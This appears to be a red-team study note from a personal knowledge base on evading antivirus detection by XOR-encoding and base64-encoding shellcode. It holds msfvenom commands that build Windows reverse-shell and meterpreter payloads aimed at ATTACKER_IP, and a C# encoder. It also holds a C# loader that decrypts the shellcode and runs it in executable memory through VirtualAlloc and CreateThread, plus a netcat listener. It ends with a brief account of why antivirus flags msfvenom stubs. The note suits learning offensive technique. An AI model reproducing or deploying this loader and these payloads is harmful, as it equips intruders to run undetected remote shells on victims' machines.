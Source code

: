 ```yaml
---
{"dg-publish":true,"permalink":"/cards/red-team/shellcode-encoding-and-encrypting/","tags":["red-team/host-evasion"]}
---
```


~ [[cards/red-team/Evading Antivirus - Shellcode\|Evading Antivirus - Shellcode]]
### Introduction
---
This is the process of evading AV detection using encoding and encryption using public tools such as MSFVenom (won't work most likely) and custom code.

#### Key Topics
---

- [[#Encoding using MSFVenom|Shows how to use MSFvenom to generate and encode shellcode and explains why it's likely to be flagged by antivirus software.]]
    
- [[#Encoder|Demonstrates a custom C# XOR encoder that obfuscates shellcode and converts it to base64.]]
    
- [[#The decoder|Presents the decoding logic that reverses the encoding process and injects shellcode into memory using Windows API calls.]]
    
- [[#Questions and Problems|Analyzes why AV detects MSFvenom payloads even with XOR and how custom tools bypass this through variation and unpredictability.]]
## Prerequisites
---
- [[cards/red-team/shell code injection\|shell code injection]]
- [[cards/red-team/Evading Antivirus - Shellcode\|Evading Antivirus - Shellcode]]
- [[cards/windows/Windows API\|Windows API]]

## Encoding using MSFVenom
---
This is a public tool will most likely get flagged or block by most AV vendors as soon as it touches the disk.

Proving this point:

```shell-session
msfvenom -a x86 --platform Windows LHOST=ATTACKER_IP LPORT=443 -p windows/shell_reverse_tcp -e x86/shikata_ga_nai -b '\x00' -i 3 -f csharp
```

Then compile it using the previous code by replacing the shellcode provided in the output then upload it to the antivirus checker:

![Shellcode Encoding and Encrypting.png](/img/user/cards/red-team/images/Shellcode%20Encoding%20and%20Encrypting.png)

Even encrypting with XOR still gets detected as AV vendors have invested lots of time into ensuring simple msfvenom payloads are detected:

```C
msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=ATTACKER_IP LPORT=7788 -f exe --encrypt xor --encrypt-key "MyZekr3tKey***" -o xored-revshell.exe
```

Uploading it to virus checker:

![Shellcode Encoding and Encrypting-1.png](/img/user/cards/red-team/images/Shellcode%20Encoding%20and%20Encrypting-1.png)
## Encoder
---
Here is the payload we are going to use:

```C
msfvenom LHOST=ATTACKER_IP LPORT=443 -p windows/x64/shell_reverse_tcp -f csharp
```

Here is a sample code:

```csharp

using System;
using System.Collections.Generic;
using System.Linq;
using System.Text;
using System.Threading.Tasks;

namespace Encrypter
{
    internal class Program
    {
        private static byte[] xor(byte[] shell, byte[] KeyBytes)
        {
            for (int i = 0; i < shell.Length; i++)
            {
                shell[i] ^= KeyBytes[i % KeyBytes.Length];
            }
            return shell;
        }
        static void Main(string[] args)
        {
            //XOR Key - It has to be the same in the Droppr for Decrypting
            string key = "THMK3y123!";

            //Convert Key into bytes
            byte[] keyBytes = Encoding.ASCII.GetBytes(key);

            //Original Shellcode here (csharp format)
            byte[] buf = new byte[460] { 0xfc,0x48,0x83,..,0xda,0xff,0xd5 };

            //XORing byte by byte and saving into a new array of bytes
            byte[] encoded = xor(buf, keyBytes);
            Console.WriteLine(Convert.ToBase64String(encoded));        
        }
    }
}
```

Then compile and execute the encoder:

```C
csc.exe Encrypter.exe
.\Encrypter.exe
```

Output:

![Shellcode Encoding and Encrypting-2.png](/img/user/cards/red-team/images/Shellcode%20Encoding%20and%20Encrypting-2.png)

Once finished use the base64 encoded data and pass it to the `dataBs64` variable below:
### The decoder
---
This basically reverse the process of encoding starting from base64 -> Xoring the result using the same key:

```csharp

using System;
using System.Net;
using System.Text;
using System.Runtime.InteropServices;

public class Program {
  [DllImport("kernel32")]
  private static extern UInt32 VirtualAlloc(UInt32 lpStartAddr, UInt32 size, UInt32 flAllocationType, UInt32 flProtect);

  [DllImport("kernel32")]
  private static extern IntPtr CreateThread(UInt32 lpThreadAttributes, UInt32 dwStackSize, UInt32 lpStartAddress, IntPtr param, UInt32 dwCreationFlags, ref UInt32 lpThreadId);

  [DllImport("kernel32")]
  private static extern UInt32 WaitForSingleObject(IntPtr hHandle, UInt32 dwMilliseconds);

  private static UInt32 MEM_COMMIT = 0x1000;
  private static UInt32 PAGE_EXECUTE_READWRITE = 0x40;
  
  private static byte[] xor(byte[] shell, byte[] KeyBytes)
        {
            for (int i = 0; i < shell.Length; i++)
            {
                shell[i] ^= KeyBytes[i % KeyBytes.Length];
            }
            return shell;
        }
  public static void Main()
  {

    string dataBS64 = "qKDPSzN5UbvWEJQsxhsD8mM+uHNAwz9jPM57FAL....pEvWzJg3oE=";
    byte[] data = Convert.FromBase64String(dataBS64);

    string key = "THMK3y123!";
    //Convert Key into bytes
    byte[] keyBytes = Encoding.ASCII.GetBytes(key);

    byte[] encoded = xor(data, keyBytes);

    UInt32 codeAddr = VirtualAlloc(0, (UInt32)encoded.Length, MEM_COMMIT, PAGE_EXECUTE_READWRITE);
    Marshal.Copy(encoded, 0, (IntPtr)(codeAddr), encoded.Length);

    IntPtr threadHandle = IntPtr.Zero;
    UInt32 threadId = 0;
    IntPtr parameter = IntPtr.Zero;
    threadHandle = CreateThread(0, 0, codeAddr, parameter, 0, ref threadId);

    WaitForSingleObject(threadHandle, 0xFFFFFFFF);
  }
}
```

Then compile the program:

```C
csc.exe EncStageless.cs
```

Before executing setup a netcat listener to listen for hacking:)

```C
nc -nvlp 443
```

Execute:

![Shellcode Encoding and Encrypting-3.png](/img/user/cards/red-team/images/Shellcode%20Encoding%20and%20Encrypting-3.png)
Then try to upload it to Antivirus.
### Questions and Problems
---
How do the MSFvenom encryption/encoding technique differs from this custom payload of ours? and how is it detected by AV when we use the same technique in this case XOR?


- AV engines has seen MSFvenom payloads thousands of times.
- Even **XOR-encrypted MSFvenom payloads** are predictable:
	- File structure (PE headers, import tables).
	- Metadata (sections, size, alignment).
	- Static artifacts inside stub or decoder logic.
- MSFvenom adds a small **decryptor stub** before running the payload.
- The stub is easily recognizable:

    - XOR loop is always the same.
    - Position and structure predictable.
    
- AV flags this **stub**, not just the payload.